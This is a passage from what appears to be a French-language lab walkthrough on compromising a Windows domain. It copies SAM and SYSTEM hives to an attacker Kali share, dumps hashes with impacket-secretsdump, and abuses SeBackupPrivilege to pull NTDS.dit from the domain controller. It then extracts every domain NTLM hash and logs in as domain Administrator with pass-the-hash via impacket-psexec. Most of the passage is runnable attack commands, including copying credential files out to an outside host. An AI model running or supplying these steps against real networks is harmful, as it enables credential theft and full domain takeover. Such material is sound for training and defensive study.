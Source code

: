    ```powershell
   # Sur SRV01
   copy C:\Temp\sam.save \\192.168.56.10\share\
   copy C:\Temp\system.save \\192.168.56.10\share\
   ```

3. **Extraction des hachages avec Impacket**

   Sur votre Kali, utilisez secretsdump.py pour extraire les hachages :

   ```bash
   cd /tmp/share
   impacket-secretsdump -sam sam.save -system system.save LOCAL
   ```

   Notez les hachages NTLM des comptes locaux pour une utilisation ultérieure.

4. **Accès au contrôleur de domaine**

   Utilisez les privilèges de sauvegarde pour extraire les credentials du domaine depuis le DC :

   ```powershell
   # Sur SRV01, accéder au DC avec les privilèges actuels
   cd C:\Temp
   
   # Copier les ruches NTDS et SYSTEM du DC
   Copy-FileSeBackupPrivilege \\DC01\C$\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
   Copy-FileSeBackupPrivilege \\DC01\C$\Windows\System32\config\SYSTEM C:\Temp\dc-system.save
   
   # Transférer les fichiers vers Kali
   copy C:\Temp\ntds.dit \\192.168.56.10\share\
   copy C:\Temp\dc-system.save \\192.168.56.10\share\
   ```

5. **Extraction des hachages du domaine**

   Sur Kali, extrayez les hachages du domaine :

   ```bash
   cd /tmp/share
   impacket-secretsdump -ntds ntds.dit -system dc-system.save LOCAL
   ```

   Vous obtenez maintenant les hachages NTLM de tous les utilisateurs du domaine, y compris l'administrateur du domaine.

### Phase 3 : Persistance sur le domaine Windows (15 minutes)

1. **Accès administrateur au domaine**

   Utilisez le hachage NTLM de l'administrateur du domaine pour établir une session avec privilèges élevés :

   ```bash
   # Sur Kali
   impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6 CORP.LOCAL/Administrator@192.168.56.100
   ```
